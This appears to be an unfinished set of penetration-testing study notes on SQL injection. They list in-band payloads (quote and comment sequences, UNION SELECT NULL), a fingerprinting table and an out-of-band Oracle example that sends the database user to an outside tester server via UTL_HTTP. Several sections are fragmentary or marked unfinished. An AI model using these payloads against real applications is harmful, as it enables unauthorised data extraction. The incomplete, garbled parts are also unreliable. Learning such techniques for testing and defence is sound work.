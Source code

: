 *In-band SQL injections** leverage the same channel used to inject the SQL code (i.e. the pages generated by the web application).

During and in-band attack the penetration tester finds a way to ask the the web application for the desired information.

try the following payloads:

- Username **'**: SELECT Username FROM Account WHERE Username
  ->
- **"**:
- **';#**: Close the string > Close the SQL statement and comment the rest of it
- **';--**:

- User **\'\/\*** **\*/'** Name:
- User **'  '** Name:

As you can see, **--** and **#** can be really be helpfull as they don't need to be delimited such as **\'\/\*** **\*/'**

- **'*'**:
  -> Mean
- **'^'**:
  -> Mean regular expression ?
- **'&'**:

2) Leveraging UNION and NULL

- UNION: Column types needs to be compatible
- NULL: Matches any types of data
  -> SELECT ..... **' UNION SELECT NULL, NULL, NULL, ...**

> / / / To Finish

###### Out of Band SQL injections

> / / / To Finish

The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

- Using HTTP
  - Oracle : http://www.victom.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--
  - MySQL: Not found

###### Fingerprinting

|MySQL|MSSQL|Oracle|
|-|-|-|
|SELECT @@version|SELECT @@version|- - - |
|dbname()



###### Error-Based SQL injections
